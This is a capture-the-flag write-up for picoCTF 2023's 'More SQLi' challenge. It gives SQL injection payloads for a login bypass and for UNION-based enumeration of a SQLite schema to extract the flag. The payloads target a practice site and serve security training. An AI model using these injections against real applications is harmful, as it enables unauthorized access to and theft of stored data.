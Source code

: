 # More SQLi #
## Overview ##
200 points

picoCTF 2023
## Description ##
Can you find the flag on this website.
Try to find the flag here.
## Solution ##
First, we get a login screen:

<img width="372" alt="image" src="https://github.com/xoxo-ily/ctfWriteups/assets/68173773/940a7850-7da1-40bf-a124-2fa6b8fe44f1">
<br><br>

We can get past this by entering anything in the username field and `' or 1=1--` in the password field. 

Then we get a table:

<img width="597" alt="image" src="https://github.com/xoxo-ily/ctfWriteups/assets/68173773/c3170b10-6e32-4281-91c5-c44722585819">
<br><br>

To get all table and column names, enter `' UNION SELECT tbl_name,sql,'' FROM sqlite_master--`:

<img width="583" alt="image" src="https://github.com/xoxo-ily/ctfWriteups/assets/68173773/ab23c4a5-1e7d-4d2f-a1e6-1871eee781a2">
<br><br>

We see that "flag" is in `more_table`, so we search again with `' UNION SELECT flag,'','' FROM more_table--` to get the flag:

<img width="588" alt="image" src="https://github.com/xoxo-ily/ctfWriteups/assets/68173773/ced4f9db-e328-4283-95f6-b5c46833611d">


## Resources used ##
[cool website](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf) 

